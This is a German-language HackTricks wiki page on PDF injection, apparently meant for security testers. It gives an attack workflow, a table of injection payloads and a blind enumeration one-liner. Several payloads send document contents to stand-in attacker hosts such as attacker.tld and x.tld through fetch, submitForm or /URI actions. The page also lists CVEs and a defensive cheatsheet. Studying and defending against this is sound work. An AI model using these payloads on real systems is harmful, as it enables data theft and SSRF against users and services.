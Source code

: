 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Wenn Ihre Eingabe in einer PDF-Datei reflektiert wird, können Sie versuchen, PDF-Daten einzufügen, um JavaScript auszuführen, SSRF durchzuführen oder den PDF-Inhalt zu stehlen.**
Die PDF-Syntax ist extrem permissiv – wenn Sie aus der Zeichenkette oder dem Wörterbuch, das Ihre Eingabe einbettet, ausbrechen können, können Sie völlig neue Objekte (oder neue Schlüssel im selben Objekt) anhängen, die Acrobat/Chrome gerne parsen wird.
Seit 2024 hat eine Welle von Bug-Bounty-Berichten gezeigt, dass *eine nicht escaped Klammer oder ein Backslash ausreicht*, um vollständige Skriptausführung zu ermöglichen.

## TL;DR – Moderner Angriffs-Workflow (2024)
1. Finden Sie einen beliebigen benutzerkontrollierten Wert, der in einer **(Klammerzeichenfolge)**, `/URI ( … )` oder `/JS ( … )`-Feld in der generierten PDF endet.
2. Injizieren Sie `) ` (schließen Sie die Zeichenfolge) gefolgt von einem der untenstehenden Primitiven und beenden Sie mit einer weiteren öffnenden Klammer, um die Syntax gültig zu halten.
3. Liefern Sie die bösartige PDF an ein Opfer (oder an einen Backend-Dienst, der die Datei automatisch rendert – großartig für blinde Bugs).
4. Ihr Payload wird im PDF-Viewer ausgeführt:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (siehe CVE-2024-4367)
* Acrobat → Vollständige JavaScript-API (kann beliebige Dateiinhalte mit `this.getPageNthWord` exfiltrieren)

Beispiel (Annotation Link Hijack):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*Die erste `)` schließt den ursprünglichen URI-String, dann fügen wir ein neues **Action**-Wörterbuch hinzu, das Acrobat ausführt, wenn der Benutzer auf den Link klickt.*

## Nützliche Injektionsprimitive
| Ziel | Payload-Snippet | Anmerkungen |
|------|-----------------|-------------|
| **JavaScript beim Öffnen** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Wird sofort ausgeführt, wenn das Dokument geöffnet wird (funktioniert in Acrobat, nicht in Chrome). |
| **JavaScript beim Link** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Funktioniert in PDFium & Acrobat, wenn Sie eine `/Link`-Annotation kontrollieren. |
| **Blinde Datenexfiltration** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Kombinieren Sie mit `this.getPageNthWord` innerhalb von JS, um Inhalte zu stehlen. |
| **Server-seitiges SSRF** | Dasselbe wie oben, aber zielen Sie auf eine interne URL – großartig, wenn das PDF von Backoffice-Diensten gerendert wird, die `/URI` respektieren. |
| **Zeilenumbruch für neue Objekte** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Wenn die Bibliothek Ihnen erlaubt, Zeilenumbrüche einzufügen, können Sie völlig neue Objekte erstellen. |

## Blinder Enumerations-Trick
Gareth Heyes (PortSwigger) veröffentlichte eine Einzeiler, der jedes Objekt in einem unbekannten Dokument auflistet – nützlich, wenn Sie das generierte PDF nicht sehen können:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Der Code durchläuft das Acrobat DOM und führt ausgehende Anfragen für jedes Property/Wert-Paar aus, was Ihnen einen *JSON-ähnlichen* Dump der Datei gibt.  
Siehe das Whitepaper „Portable Data **ex**Filtration“ für die vollständige Technik.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Arbiträre JavaScript-Ausführung in Firefox’s PDF.js vor 4.2.67 umging den Sandbox mit einer gestalteten `/JavaScript`-Aktion.
* **Bug bounty 2024-05** – Ein großes Fintech erlaubte vom Kunden bereitgestellte Rechnungsnotizen, die in `/URI` landeten; der Bericht wurde mit 10.000 $ vergütet, nachdem ein SSRF zu einem internen Metadaten-Host unter Verwendung von `file:///` URI demonstriert wurde.
* **CVE-2023-26155** – `node-qpdf` Befehlseinspritzung über unsanierten PDF-Pfad zeigt die Wichtigkeit des Escapens von Rückwärtsschrägstrichen und Klammern, selbst *vor* der PDF-Ebene.

## Defensive Cheatsheet
1. **Kombinieren Sie niemals rohe Benutzereingaben** innerhalb von `(`…`)`-Strings oder Namen. Escapen Sie `\`, `(`, `)` wie von §7.3 der PDF-Spezifikation gefordert oder verwenden Sie Hex-Strings `<...>`.
2. Wenn Sie Links erstellen, bevorzugen Sie `/URI (https://…)`, die Sie *vollständig* URL-encodieren; blockieren Sie `javascript:`-Schemes in Client-Viewern.
3. Entfernen oder validieren Sie `/OpenAction`, `/AA` (zusätzliche Aktionen), `/Launch`, `/SubmitForm` und `/ImportData`-Dictionaries beim Nachbearbeiten von PDFs.
4. Auf der Serverseite, rendern Sie nicht vertrauenswürdige PDFs mit einem *headless converter* (z.B. qpdf –decrypt –linearize), der JavaScript und externe Aktionen entfernt.
5. Halten Sie PDF-Viewer auf dem neuesten Stand; PDF.js < 4.2.67 und Acrobat Reader vor Juli 2024 erlauben triviale Codeausführung.

## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (aktualisiert Mai 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
